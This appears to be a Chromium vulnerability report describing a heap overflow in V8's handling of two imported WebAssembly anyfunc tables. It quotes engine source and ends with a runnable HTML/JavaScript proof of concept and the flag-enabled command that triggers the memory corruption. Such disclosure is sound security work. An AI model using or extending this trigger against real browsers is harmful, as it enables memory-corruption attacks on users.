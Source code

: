 
<b>VULNERABILITY DETAILS</b>
if Module have two anyfunc, generating wasm instance, indirect_function_table size is first table size. this cause heap overflow when instance dispatch second table that is larger than first table 

<b>-------------------------</b>-----------------------
bool InstanceBuilder::ProcessImportedTable(Handle<WasmInstanceObject> instance,
..........
.........
  if (!instance->has_indirect_function_table()) {
    WasmInstanceObject::EnsureIndirectFunctionTableWithMinimumSize(
        instance, imported_table_size);
  }
.......
.......
  for (int i = 0; i < imported_table_size; ++i) {
    bool is_valid;
    bool is_null;
    MaybeHandle<WasmInstanceObject> maybe_target_instance;
    int function_index;
    WasmTableObject::GetFunctionTableEntry(isolate_, table_object, i, &is_valid,
                                           &is_null, &maybe_target_instance,
                                           &function_index);
......
    IndirectFunctionTableEntry(instance, i)
        .Set(module_->signature_map.Find(*sig), target_instance,
             function_index);
  }

calling ProcessImportedTable, indirect_function_table should be updated every time.

should turn on experimental-wasm-anyref flag

<b>VERSION</b>
Google Chrome 76.0.3788.1 (Official Build) dev (64-bit)
Operating System: Any OS

<b>REPRODUCTION CASE</b>


should turn on experimental-wasm-anyref flag
chrome.exe --js-flags="--experimental-wasm-anyref" poc.html 


<html>
<script>
let kTableSize = 0x100;
let wasm = new Uint8Array([0,97,115,109,1,0,0,0,1,30,6,96,1,127,1,127,96,1,127,1,127,96,0,1,127,96,1,127,1,127,96,1,127,1,127,96,1,127,1,127,2,38,3,3,102,102,105,4,102,117,110,99,0,0,3,102,102,105,2,116,49,1,112,1,112,128,2,3,102,102,105,2,116,50,1,112,1,112,128,32,3,4,3,3,4,5,5,4,1,1,0,1,7,29,4,6,116,97,98,108,101,49,0,1,2,104,49,0,2,2,104,50,0,3,6,109,101,109,111,114,121,2,0,10,21,3,9,0,32,0,65,0,17,1,0,11,4,0,65,1,11,4,0,65,2,11,0,24,4,110,97,109,101,1,17,3,1,6,116,97,98,108,101,49,2,2,104,49,3,2,104,50])
let module = new WebAssembly.Module(wasm);



let table1 = new WebAssembly.Table({element: "anyfunc",
                                   initial: kTableSize,
                                   maximum: 0x100});

let table2 = new WebAssembly.Table({element: "anyfunc",
                                   initial: 0x1000,
                                   maximum: 0x1000});
let instance = new WebAssembly.Instance(module, {ffi:{func:i=>i, t1:table1, t2:table2}});
let table3 = new WebAssembly.Table({element: "anyfunc",
                                   initial: 0x1000,
                                   maximum: 0x1000});
console.log("wtf");
table1.set(0,instance.exports.h1);
for(let i = 0; i < 0x1000; i++)
	table3.set(i,instance.exports.h2);
let instance2 = new WebAssembly.Instance(module, {ffi:{func:i=>i, t1:table1, t2:table3}});
console.log(instance2.exports.table1(0));
</script>
</html>